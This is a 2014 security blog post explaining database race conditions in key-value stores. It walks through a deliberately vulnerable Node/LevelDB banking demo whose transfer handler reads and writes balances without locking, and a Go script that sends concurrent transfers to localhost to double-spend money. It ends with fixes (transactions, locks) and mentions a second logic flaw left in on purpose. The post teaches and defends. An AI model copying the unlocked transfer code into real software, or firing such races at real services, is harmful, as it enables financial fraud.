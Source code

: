 ```yaml
---
date: 2014-06-24 22:35:25 GMT
slug: two-reads-dont-make-a-write
tags: security, node.js
title: Two Reads Don't Make a Write
author: Tom Steele
type: text
---
```


Database race conditions are hard to identify and tricky to exploit, but if an attacker is able to leverage this weakness, the results can be devastating. [Flexcoin](http://flexcoin.com/) had such a weakness in their application, and allowed an attacker to steal enough bitcoins that they were forced to shutdown, more information on this specific situation is available [here](http://hackingdistributed.com/2014/04/06/another-one-bites-the-dust-flexcoin/).

Race conditions can occur no matter what backend solution you choose. Traditional databases support [transactions](http://en.wikipedia.org/wiki/Database_transaction) to prevent them. But most key-value data stores do not have such mechanisms. This is well known, and in many cases is not deal breaker. But it is important to understand when this should be a requirement, or at least when a compensating control is needed. 

Key-value data stores are a large part of modern application development, and growing in popularity. Solutions like Riak, LevelDB, MongoDB, etc. give you increased flexibility and development efficiency, as well as other benefits which have been covered and discussed extensively. With the benefits also come weaknesses, or maybe a better word is differences.

Rather than writing a long explanation centered around a theoretical situation, I decided to write a tiny application to quickly demonstrate this vulnerability. Enter [raceybank](https://github.com/tomsteele/raceybank), a little Node application with a LevelDB backend. This is incredibly simple and somewhat silly, but it demonstrates the issue well.

We're going to walk through the application now. There are instructions in the repository so you can follow along at home. 

Consider we have a banking application, or maybe we have a store that gives a user credits. Whatever. Let's look at our user model.

~~~~~javascript
module.exports = new dulcimer.Model({
    id: {
        derive: function() {
            return this.key.split('!')[1];
        }
    },
    name: {
        type: 'string',
        required: true
    },
    money: {
        type: 'integer',
        required: true
    }
}, { db: db, name: 'user'});
~~~~~

Pretty straight forward, we have a user with a unique id, a name, and some amount of money. Our application consists of two routes, `GET /users` and `POST /transfer`. Here is the transfer route.


~~~~~javascript
function handleTransfer(request, reply) {
    var to = null;
    var from = null;
    var amount = request.payload.amount;

    if (request.payload.to === request.payload.from) {
        return reply().code(400);
    }

    async.parallel([function (cb) {
        User.get(request.payload.to, function (err, user) {
            if (err) {
                return cb(err);
            }
            to = user;
            return cb();
        });
    }, function (cb) {
        User.get(request.payload.from, function (err, user) {
            if (err) {
                return cb(err);
            }
            from = user;
            return cb();
        });
    }], foundUsers);

    function foundUsers(err) {
        // Something happened or we didnt find the users.
        if (err || !to || !from) {
            return reply().code(404);
        }

        // Validate from has the funds for this transfer.
        if (from.money < amount) {
            return reply().code(403);
        }

        // Transfer the money.
        from.money -= amount;
        to.money += amount;
        async.parallel([function (cb) {
            from.save(function (err) {
                cb(err);
            });
        }, function (cb) {
            to.save(function (err) {
                cb(err);
            });
        }], saveUsers);
    }

    function saveUsers(err) {
        if (err) {
            return reply().code(500);
        }
        return reply();
    }
}
~~~~~

It's a bit of code, but the gist is we read two users from the database, validate the transferrer has the requested amount of funds, decrement from transferrer, increment transferee's funds, and save the user records. Once we have the application started, we can see that some seed data has been initialized by calling `GET /users` (note: you would never want to return this much information, but this is a demo).

~~~~~shell
$ curl http://localhost:3000/users | python -mjson.tool
[
    {
        "id": "0000000001",
        "money": 100,
        "name": "Alice"
    },
    {
        "id": "0000000002",
        "money": 100,
        "name": "Bob"
    },
    {
        "id": "0000000003",
        "money": 100,
        "name": "Carol"
    }
]
~~~~~

Alice, Bob, and Carol all have 100 something, let's call it dollars, resulting in a total economy of $300. We'll transfer $100 from Alice to Bob, and then attempt to transfer $100 from Alice to Carol.

~~~~~shell
$ curl -i http://localhost:3000/transfer -X POST -d '{"from": "0000000001", "to": "0000000002", "amount": 100}' -H 'Content-Type: application/json'
HTTP/1.1 200 OK
~~~~~

~~~~~shell
$ curl -i http://localhost:3000/transfer -X POST -d '{"from": "0000000001", "to": "0000000003", "amount": 100}' -H 'Content-Type: application/json'
HTTP/1.1 403 Forbidden
~~~~~

The first request succeeds and the second fails because Alice does not have enough money. But we made these requests sequentially, what happens if we make these requests concurrently? I'll show you! Here is some quick Go code to make the magic happen. All it does is make the same two requests, but concurrently in two goroutines.

~~~~~go
package main

import (
    "bytes"
    "log"
    "net/http"
    "sync"
)

func main() {
    req1 := []byte(`{"to": "0000000002", "from": "0000000001", "amount": 100.00}`)
    req2 := []byte(`{"to": "0000000003", "from": "0000000001", "amount": 100.00}`)
    wait := &sync.WaitGroup{}
    wait.Add(2)
    go func(body []byte) {
        defer wait.Done()
        http.Post("http://localhost:3000/transfer", "application/json", bytes.NewReader(body))
    }(req1)
    go func(body []byte) {
        defer wait.Done()
        http.Post("http://localhost:3000/transfer", "application/json", bytes.NewReader(body))
    }(req2)

    wait.Wait()
    log.Println("done")
}
~~~~~

We restart the application to reset our data and run our exploit.

~~~~~shell
$ ./exploit-osx
2014/06/24 15:03:19 done
~~~~~

Check out users balances.

~~~~~shell
curl http://localhost:3000/users | python -mjson.tool
[
    {
        "id": "0000000001",
        "money": 0,
        "name": "Alice"
    },
    {
        "id": "0000000002",
        "money": 200,
        "name": "Bob"
    },
    {
        "id": "0000000003",
        "money": 200,
        "name": "Carol"
    }
]
~~~~~

Carol and Bob both have $200. WE JUST CREATED MONEY. No we're not Midas, we're simply exploiting a race condition. Alice is read twice before the write. So each request instance believes they have the required funds.

This is a traditional example and often used as the argument for why transactions are important. In a real bank there would be much stricter control and fraud prevention to prevent this from going unnoticed. But not everyone is a big bank with unlimited resources, and not every situation will deal with dollars and cents. This could be occur in something of relatively low importance, but still be a bug that could drive you to madness.

How can we prevent this? To me, this depends on the nature of the data being handled. If it's crucial financial data I would opt for a traditional database (there are NoSQL solutions that support transactions as well). If not, or you're already heavily invested in a existing solution, you can apply a lock/mutex around the troublesome operation. A few modules exist in Node land to solve this, including [lock](https://github.com/dominictarr/lock) and [padlock](https://github.com/fritzy/padlock). There are other options, including in-code patterns such as a [two-phase-commit](http://docs.mongodb.org/manual/tutorial/perform-two-phase-commits/); investigate what works for you, look for this in your code, and test for it.

After reading this post, [Fritzy](http://andyet.com/team/nathan), the awesome author of [dulcimer](https://github.com/fritzy/Dulcimer), decided to make the world a little bit safer and implemented a method which uses the lock pattern mentioned above. Check out the [docs](https://github.com/fritzy/Dulcimer/tree/withLock#runWithLock) for more information.

###Bonus
I purposefully left a logic flaw in the application that allows you to transfer unlimited funds. Be the first to submit a issue with the details and we'll send you a snazzy ^lift shirt.
